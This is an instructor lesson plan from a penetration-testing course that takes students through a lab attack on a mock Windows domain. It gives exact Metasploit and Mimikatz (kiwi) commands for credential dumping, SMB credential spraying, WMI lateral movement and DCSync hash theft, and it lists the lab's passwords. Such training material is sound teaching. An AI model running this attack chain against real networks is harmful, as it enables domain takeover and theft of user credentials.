##  17.3 Lesson Plan: Windows Persistence, Lateral Movement, Credential Access, and Review				

### Overview

In today's class, students will finish the second penetration testing module by establishing persistence on a Windows machine, laterally moving to the domain controller, and then accessing the database where Active Directory credentials are stored. The day will finish with a review of the pen testing modules using a service called Kahoot!.

### Class Objectives

By the end of class, students will be able to:

- Understand how Windows credentials and Mimikatz work.

- Perform lateral movement to other machines in a network. 

- Explain what DC replication is and how to use the DCSync attack.

### Instructor Notes

It's important for students to strictly follow directions and use the given paths, payload names, etc. for activities. This will prevent confusion when things do not work properly.

### Lab Environment

For this module, you will use the **Pentesting 2** lab environment located in Windows Azure Lab Services. RDP into the Windows RDP Host machine using the following credentials:

  - Username: `azadmin`
  - Password: `p4ssw0rd*`

The credentials to the Hyper-V VMs are as followed:

| Virtual Machine | Username | Password |
|-----------------|----------|----------|
| Kali            |root|kali|
| Metasploitable2 |msfadmin|cybersecurity|
| Windows 10 |.\Administrator|Topsecret!|
| WINDC01 | Administrator|Topsecret!

### Slideshow

The lesson slides are available on Google Drive here: [17.3 Slides](https://docs.google.com/presentation/d/1iN6rbfW3oStGNB_TAcxkOjydNdB35ZBmE1lTX1uPKwM/edit#slide=id.p).

- **Note**: Editing access is not available for this document. If you or your students wish to modify the slides, please create a copy by navigating to **File** > **Make a copy**.

### Time Tracker

The time tracker is available on Google Drive here: [17.3 Time Tracker](https://docs.google.com/spreadsheets/d/1BZPEnRG47XfYcPDV_fIJ3InD9S94CJkzQs4rprkq3hg/edit#gid=879398762).

### Student Guide

Share the student-facing version of this lesson plan after class: [17.3 Student Guide](studentguide.md).

-------

### 01. Instructor Do: Windows Credentials Refresher (0:15)

Welcome students to class, and explain that today we will finish the penetration testing modules with Windows persistence, lateral movement, and credential access.

Remind the students that in the previous class, we were able to escalate to SYSTEM privileges.

  - With SYSTEM privileges, we now have the ability to dump credentials that are stored in Windows. 
  
Remind students that in Linux, we were able to dump credentials (usernames + hashes) by viewing the contents of the `/etc/shadow` file. 
- In Windows, credentials are stored in the **Security Accounts Manager (SAM)** database. 
- This database is stored within the **Local Security Authority Subsystem Service (LSASS)** process. 
- Therefore, if we are able to access LSASS, which is always run as SYSTEM, we are then able to dump the contents of the process, which will include the SAM database and thus any credentials that are stored within it.
- Local account passwords are continuously stored in SAM and will always be available offline. 

Domain accounts, which primarily use Kerberos for authentication, do not have their credentials stored in SAM. 
- Instead, when a domain user logs in to Windows, their credentials are cached in the registry. 
- Remind students that the registry is a database in Windows that stores settings for Windows and applications. 
- The registry setting is `HKEY_LOCAL_MACHINE\Security\Cache`, which is held in the file `C:\Windows\System32\config\SECURITY`, as the following image shows: 

  

- This specific registry key will appear blank, as it is only accessible by SYSTEM. However, if you look for the file `C:\Windows\System32\config\SECURITY`, you will see that it has data in it, as the following image shows:

	 

   - Again, though, this is not viewable as a standard user, and you must be SYSTEM to access the file. 

- By default, in Windows 10, up to 10 network/domain credentials will be cached at a time. This default value is viewable in the local security policy, as the following image shows:

	

According to Windows, each unique user's logon information is cached locally so that, in the event that a domain controller is unavailable during subsequent logon attempts, they are able to log on. The cached logon information is stored from the previous logon session.

- Even as SYSTEM, viewing the contents of the registry key would not yield any decipherable hash, as the passwords are hashed *and* salted using a hashing algorithm called **MSCacheV2**. However, we will use tools that are able to decrypt the contents. 

#### Mikikatz / Kiwi

Introduce Mimikatz and Kiwi by covering the following:

- **Mimikatz** is a Windows-purposed credential dumping tool that is able to decrypt almost all stored credentials in Windows.
- It is outside of the scope of our class to go into details on how Mimikatz works.
- For our class though, we will use the Metasploit version of Mimikatz called **kiwi**. 
- Note, this tool is called `kiwi` in Metasploit because the creator of Mimikatz, Benjamin Delpy, goes by the handle GentleKiwi.

Explain to the class that we will now conduct a demonstration on how to use the Metasploit version of Mikikatz, kiwi. 

#### Mimikatz Demonstration

First, open a Meterpreter session as SYSTEM on WIN10 by performing the following steps (if a current Meterpreter SYSTEM session isn't already opened).

1. Load the `psexec` module. `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
	- 
	
3. Run the module with `run`

	- 
	
Even thought we set the credentials to `tstark`, the PSExec module in Metasploit will always open a session as SYSTEM due to how it executes the payload via service creation.

4. In your Meterpreter session, enable the Mimikatz modules by typing `load kiwi`, as the following image shows:

	 - 

     - Metasploit and Meterpreter both have the ability to load add-ons such as `kiwi`. When a new add-on is loaded, the help menu will be updated with commands from the new add-on. 

5. Next, show all the options available for the kiwi modules with the command `?`, as the following image shows:

	 - 

	 - Inform students that since `kiwi` is an adaptation of Mimikatz, the commands are slightly different. 
	 
	 - For example, in Mimikatz, the command `sekurlsa::kerberos` (pronounced "secure LSA," or "secure local security authority"), will list all Kerberos credentials on the machine. In `kiwi`, this command is `creds_kerberos`.

6. Start by demonstrating the command `lsa_dump_sam` to dump the contents of SAM. Explain to students that there's a lot of output here, some of which is not important. The most important field is `User, Hash NTLM` as highlighted in the image below. 

     - This field contains the NTLM hash for that user.

     - 

7. Another way of obtaining hashes is through the `creds_all` command with `kiwi`. This will parse the output neatly, as the following image shows:

     - 	

     - **Note**: If you do not get any results with `creds_all`, you most likely need to migrate to a x64 SYSTEM process. 

     - Inform students that this command will look for credentials in several areas of Windows and dump them. Note that SAM is not included in `creds_all`. Most likely, the credentials obtained through `creds_all` will come from current logged in users. We can see from the output that `pparker` has his password hash dumped, because he is logged onto the machine.
 
8. Explain that one additional area that `creds_all` doesn't cover is cached credentials. Remember that Windows will cache credentials when a user logs on. Unfortunately this command doesn't exist in `kiwi`, but luckily we can run actual Mimikatz commands in `kiwi` via the `kiwi_cmd` command. 

9. Run the following command to demonstrate`kiwi_cmd` :

	  - `kiwi_cmd lsadump::sam`
 
	  - 

	  - Explain to students that this output is the same as `lsa_dump_sam`. In this upcoming activity, they will have to use kiwi_cmd to find the cached credentials. 

Send the following additional guides for Mimikatz:
- [Mimikatz Cheatsheet](https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49)
- [Mimikatz commands](https://adsecurity.org/?page_id=1821)

Explain that in the next activity students will get an opportunity to practice credential dumping with Kiwi.
  - Ask the class if they have any questions before proceeding to the activity.

### 02. Student Do: Credential Dumping Activity (0:15)

Explain the following to students:
- In this activity, you will continue to play the role of a pentester conducting an engagement on MegaCorpOne.
- You have now been tasked to use the Metasploit `kiwi` extension to dump the credentials that are cached on the WIN10 machine.
- Then you will save and crack the hashes using `john`.

Send students the following file:

- [Activity File: Credential Dumping](Activities/01_CredDumping/Unsolved/README.md)

Answer any questions before students start the activity.

### 03. Instructor Review: Credential Dumping Activity (0:10)

The purpose of this activity was to crack the password hash for another user using `kiwi_cmd` in Meterpreter. 

- This was only possible due to the user bbanner logging into the machine at some point and credential caching was left to the default value in Windows.

- Next, we will explore lateral movement and compromising the domain controller.

Send students the following solution guide and use it to review the activity:

- [Solution Guide: Credential Dumping](Activities/01_CredDumping/Solved/README.md)

### 04. Instructor Do: Lateral Movement  (0:20)

Tell students that since we have now dumped domain credentials, cracked their hashes, and established persistence on one machine, we will  learn how to expand our access on the network. 

Emphasize that it is rare that a pentester completes their goal just by accessing a *single machine*. 

- Often, the pentester will need to move throughout the network, compromising *multiple machines* to either obtain the goal or to obtain access that is needed to achieve the goal. 

- As an example, our objective during this penetration test is to gain access to MegaCorpOne's domain controller and retrieve the password hash of the `Administrator` user as proof-of-compromise of the domain.

  - In order to accomplish this, we first obtained initial access to the Linux machine and then used the credentials we found on that machine to compromise a Windows machine. 

  - We obtained more credentials on the Windows machine and will now see if those credentials can be used anywhere else. 

  - Our goal is to gain access to credentials that can access the domain controller, WINDC01 where our objective lies.

#### Credential Spraying Demonstration

Now that we have a new set of credentials, we can test its access by spraying the credentials across the network. 

1. Demonstrate this to students by loading the smb_login module in Metasploit.

	- `use auxiliary/scanner/smb/smb_login`

2. Next, fill in the SMBDomain, SMBUser, SMBPass, and RHOSTS fields.

	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	- `set SMBDomain megacorpone`
	
	- `set RHOSTS 172.22.117.0/28`
	
	- `set LHOST 172.22.117.100`
	
	- 

3. Run the exploit

	- `run`
	
4. Once the scan gets to 172.22.117.10, you should see a successful logon. This is the IP address of WINDC01, meaning the credentials we cracked were highly privileged and we now have access to a domain controller.

	- 

#### Lateral Movement

Now that we know we have credentials that can access the domain controller, we can perform lateral movement.

- Begin by defining **Lateral movement** as moving through the network from one machine to another.

Introduce lateral movement techniques by covering the following: 

- We can use several different techniques to achieve lateral movement, many of which use Windows tools maliciously.
  - For example: One technique is using PsExec, a tool that manages Windows machines remotely using PowerShell. 
  - We will leverage the credentials that we gathered and cracked from the Windows10 machine to move off the Windows10 machine and onto the domain controller.

- Lateral movement techniques often overlap with initial access techniques, as both tactics typically leverage the execution of code. However, there are two key differences between lateral movement and initial access:
  - (1) Lateral movement requires already having internal network access, as "lateral" movement means moving inside the network. Initial access refers only to the initial way that we get access to a machine on the internal network.

  - (2) There's often a greater number of possibilities for code execution when performing lateral movement. 
    - One major reason is that within an internal network, network firewall rules seldom apply. 
    - Internally-networked machines often have much greater access to ports to other machines on the network.
      - For example: Port 445 will almost always be available on all internal Windows machines, but that port is commonly blocked on the internet-facing firewall. 

- Having greater access to ports allows the usage of additional techniques, which we will explore.

Explain that there are several **Lateral Movement MITRE Techniques**. Show students the page for [lateral movement on MITRE](https://attack.mitre.org/tactics/TA0008/). 

- (1) [Remote Services](https://attack.mitre.org/techniques/T1021/): This is an umbrella technique for any remote services on a machine. For example, SSH, VNC, and RDP fall under this technique. Specifically, though, a common lateral movement tool is **PsExec**, which allows an administrator to execute PowerShell commands remotely. A pentester can leverage this by remotely executing a malicious PowerShell payload on a remote machine to gain access to it.

- (2) [Remote Services: Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001/): This technique leverages Remote Desktop Protocol (RDP), which will let a user log in to a machine remotely and control it as if they were logged in to it physically. Pentesters can leverage this by logging in to any machines their compromised user has RDP access to. 

- (3) [Exploitation of Remote Services](https://attack.mitre.org/techniques/T1210/): Exploitation of old services is also a common lateral movement technique for pentesters. The SMB protocol has had several critical-severity vulnerabilities that allowed a pentester to easily get SYSTEM privileges remotely over a machine. 

- (4) [Remote Services: SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002/): This last example uses SMB to get access to a remote file system. In addition to serving the file system service, SMB is also used in conjunction with another protocol, RPC, in order to transfer files or access services such as Task Scheduler or Service Controller. 

Tell students that we will now perform lateral movement using WMI as a class.
	
### 05. Class Do: Lateral Movement Activity (0:15)

For this demo, you will use bbanner's credentials to move laterally from Windows10 to WINDC01. Students should follow along on their machines. 

**Note:** This requires a SYSTEM shell on the Windows10 machine. If you do not have a SYSTEM shell, use `exploit/windows/smb/psexec` with "tstark's" credentials to obtain one.

1. Inform students that you will perform lateral movement to WINDC01 by using WMI via Metasploit. First, ensure you're working from a SYSTEM level shell on the Windows10 machine, then use the `exploit/windows/local/wmi` module.

	- `use exploit/windows/local/wmi`
	
2. Next, set the following parameters:
		
	- `set RHOSTS 172.22.117.10`
	
	- `set SESSION [ID of the active Meterpreter session running as SYSTEM]`
	
	- `set SMBDomain megacorpone`
	
	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	- `set LHOST 172.22.117.100`
	
	and run the payload:
	
	- `run -j`

	- 	
	
3. Run the exploit. It may give an error, but should return another Meterpreter session on the WINDC01 machine.

	- `run`
	
	- `sysinfo`

	- 		
	
Explain to students that we successfully launched the WMI exploit from our Meterpreter session on Windows10 to WINDC01. From a network traffic perspective, the exploit content occurred between Windows10 and WINDC01, instead of Kali to WINDC01. 

### 06. Break (0:15)

### 07. Instructor Do: Credential Access (0:15)

Explain to students that since we now have access to WINDC01 from a SYSTEM Meterpreter shell, we have unfettered access to the entire domain. Two key pieces of the Active Directory domain are now under our control:

- The bbanner account, which is part of the Domain Administrator group in AD. This means that we have the ability to log in to any machine by default as well as the ability to create and delete accounts, reset passwords, etc.

- WINDC01, which is the primary domain controller for the domain. This is the machine that handles network logins, access control for network assets, etc.

Domain controllers are heavily controlled and defended for this reason. Having SYSTEM or Administrator access to a domain controller means that you have access (either directly or indirectly) to every single domain user's password hash -- which, of course, can be exfiltrated and then cracked offline.

Inform students that there can be multiple domain controllers on a network. 

- Often, there's a "primary" domain controller, which handles the Kerberos authentication as well as other services, such as DNS. 
- "Secondary" domain controllers often have other services running, such as file shares and VoIP services. 
- However, if they are configured with domain services, they can act as backups to the primary DC. 

In the event the primary DC goes down, the secondary DC will handle authentication. In order for this to properly happen, the secondary DCs must replicate the data from the primary DC. 

- MegaCorpOne only has a single domain controller, no secondaries.

- The ability to replicate data from a domain controller is a reserved privilege for domain controller computer accounts or domain administrators. 

- User password hashes are stored on disk on the primary DC inside the `C:\Windows\System32\NTDS.dit` file. Historically, this file was heavily targeted by pentesters. However, due to changes in how the hashes are actually stored and how the `NTDS.dit` file is read, this technique is not applicable to Windows 10+ and Server 2016+.

**DCsync**

Inform students that the newer, preferred technique for accessing password hashes on domain controllers is called **DCSync**. 

Introduce **DCsync** by covering the following:
- **DCsync** was discovered by the creator of Mimikatz, Benjamin Delpy.
- It involves replicating the data from a domain controller and parsing through it to extract the password hashes for users. 
- DCSync requires replication rights, so you must have a domain administrator account or be SYSTEM on a domain controller itself. 
- DCSync itself does not have a standalone Metasploit module. However, we can use `kiwi`, the Metasploit implementation of Mimikatz, to perform DCSync.
- The major difference using DCSync in `kiwi` vs. the `.exe` version of Mimikatz is that with DCSync in `kiwi`, you must specify a username with the password hash you want. The `.exe` version of Mimikatz will return all users' password hashes when performing DCSync.

Explain that we will now conduct a demonstration on how to use **DCsync**

#### Credential Access Demo 

In order to find out what users are on the domain, we will use the `net` command. `net` is a command that allows a user to list groups, users, network connections, etc. on a Windows machine.

1. In the SYSTEM Meterpreter shell on WINDC01, enter a `shell`.

	- `shell`
	
	- 	
	
2. Next, type `net users` to view the users on the machine. Explain to students that performing this command on a non-domain controller will only display local users. Since we're on a domain controller, there are no local users and all users on a domain controller are domain users, thus `net users` displays all users in the domain.

	- `net users` 
	
	- 	
	
3. `exit` the command shell and load `kiwi`.

	- `exit`
	
	- `load kiwi`

4. Now that we have a list of users, we can request their NTLM passwords via DCSync attack.

	- `dcsync_ntlm cdanvers`
	
	- 	
	
5. From here, we could DCsync every user and put their NTLM hashes in a list in attempt to crack their passwords.

Inform students this is what they will be doing in their next activity.
- Ask the class if they have any questions before proceeding to the activity.

### 08. Student Do: Credential Access Activity (0:15)

Explain the following to students:

- In this activity, you will continue to play the role of a pentester conducting an engagement on MegaCorpOne.
- Since we have administrator access on WINDC01, you are tasked with performing DCSync to itself and recover password hashes for any user we wish.
- Due to the limitations of `kiwi` in Metasploit, the instructions will inform you which usernames to DCSync.  

Send students the following files:

- [Activity File: Credential Access](Activities/03_CredentialAccess/Unsolved/README.md)

Answer any questions before students start the activity.

### 09. Instructor Do: Credential Access Activity Review (0:10)

The purpose of this activity was to recover additional password hashes from the domain controller. 

Send students the following solution guide and use it to review the activity:

- [Solution Guide: Credential Access](Activities/03_CredentialAccess/Solved/README.md)

### 10. Class Do: Penetration Testing Recap - Kahoot! (0:40)

Remind the students that over this last week we have covered many steps a penetration tester could take against Windows servers.Recap the following activities over the last three days:
- On the **Day 1** of Windows penetration testing, we began by illustrating the similarities and differences between Linux and Windows Pentesting
  - We then moved on to scanning and learning what ports Windows machines have open
  - Then we conducted authentication attacks with password spraying and LLMNR poisoning
  - We also exploited our target with WMI to run commands remotely on the target machine
- On **Day 2**, we began by using msfvenom to create custom payloads, which gave us a Meterpreter shell to conduct post-exploitation
  - Next we learned several privilege escalation techniques, how to conduct process migration, as well as several windows persistence techniques.
- On **Day 3** (today), we learned how to use Mimikatz to extract passwords from memory.
  - Then we learned several lateral movement techniques to access other machines.
  - We then concluded this weeks lesson by using DCsync to access password hashes on domain controllers

As we have learned many topics over this past week, we will conclude this module with a review of what we've learned with a game of Kahoot!. Remind students of the setup instructions:

#### Kahoot! Setup  
    
Start the Kahoot Pen Testing Week 2 Challenge by accessing the following link: [Kahoot Pen Testing Week 2 Challenge](https://create.kahoot.it/details/3f1cd12f-635d-4dfe-9492-0e0d7fd99a77).
   
Complete the following steps:   

